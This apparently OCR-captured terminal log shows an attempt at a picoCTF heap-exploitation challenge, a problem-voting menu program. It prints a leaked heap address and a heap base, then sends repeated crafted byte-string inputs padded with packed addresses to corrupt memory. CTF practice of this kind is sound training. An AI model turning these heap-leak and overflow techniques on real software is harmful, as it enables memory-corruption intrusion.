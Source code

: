 ```
2  - no-args
3  - contacts
4  - cake
5  - freecalc
6  - sword
7  - are you root?
8  - gps
9  - circuit123
Which Problem do you want to vote for?
>

Suuuuure, that makes sense. Your favorite problem from picoCTF 2018 was '', but it didn't even get a nomination...
LEAKED HEAP ADDR: 0x00D752B0
HEAP BASE ADDR: 0x00D75000
Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
2

n
List Problems? (y/n) Which Problem do you want to vote for?
choose
> You can't choose choose because that was last year's master pwn, NO arguments! Would you like to vote for this year's instead?
b'yes\x00                            \x18 `\x00\x00\x00\x00\x00@'
> Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
2

n
List Problems? (y/n) Which Problem do you want to vote for?
choose
> You can't choose choose because that was last year's master pwn, NO arguments! Would you like to vote for this year's instead?
b'yes\x00                            @R\xd7\x00\x00\x00\x00\x00\x81'
> Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
2

n
List Problems? (y/n) Which Problem do you want to vote for?
choose
> You can't choose choose because that was last year's master pwn, NO arguments! Would you like to vote for this year's instead?
b'yes\x00                            @R\xd7\x00\x00\x00\x00\x00\xef'
> Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
```